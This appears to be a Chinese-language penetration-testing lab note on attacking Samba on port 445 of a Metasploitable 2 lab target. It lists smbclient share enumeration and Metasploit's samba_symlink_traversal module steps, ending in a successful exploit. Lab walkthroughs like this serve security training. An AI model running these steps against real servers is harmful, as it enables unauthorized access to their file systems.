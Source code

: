 # 445_Samba.md

445端口开启了smb服务

先查看share目录

> smbclient -L //10.10.10.6

![image-20210319110924655](../../image/meteaspolitale2/image-20210319110924655.png)

root这里没有密码可以直接回车

使用msf加载模块脚本

> search smb

选择模块

>  use auxiliary/admin/smb/samba_symlink_traversal

设置目标靶机

> set RHOSTS 10.10.10.6

设置share目录

>  set SMBSHARE tmp

查看设置

> options

![image-20210319111129568](../../image/meteaspolitale2/image-20210319111129568.png)

开始利用

> exploit

![image-20210319111217946](../../image/meteaspolitale2/image-20210319111217946.png)

回到smbclient

> smbclient  //10.10.10.6/tmp

进行登录

![image-20210319111322583](../../image/meteaspolitale2/image-20210319111322583.png)

利用成功